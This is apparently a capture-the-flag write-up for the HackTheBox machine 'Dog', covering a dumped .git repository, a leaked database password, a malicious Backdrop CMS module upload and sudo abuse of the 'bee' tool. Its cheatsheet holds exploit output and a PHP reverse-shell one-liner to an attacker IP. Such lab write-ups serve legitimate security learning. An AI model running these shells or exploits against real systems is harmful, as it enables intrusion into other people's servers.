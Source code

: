 # Dog \[Linux Easy]

## Report

An exposed git repositary compromises SQL root password credentials and a user tiffany@htb for the Backdrop CMS running on port 80 allows us to login as admin on CMS. Just like Mr. Robot WordPress, manual plugins can be installed here, upload a tar.gz file which is a PHP reverse shell.

List users in home and user johncusack uses same password as root db for user flag

sudo -l shows a binary bee that can run arbitrary PHP code, use it to spawn a new bash shell

## Cheatsheet

```
python3 exploit.py http://dog.htb
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://dog.htb/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://dog.htb/modules/shell/shell.php

php -r '$sock=fsockopen("10.10.14.55",9001);system("/bin/bash <&3 >&3 2>&3");'
```

## Loot

Email address - support@htb

.git  found on website, dump it

`$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop'`

`grep -r "@dog.htb"`

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<div align="left"><figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure></div>
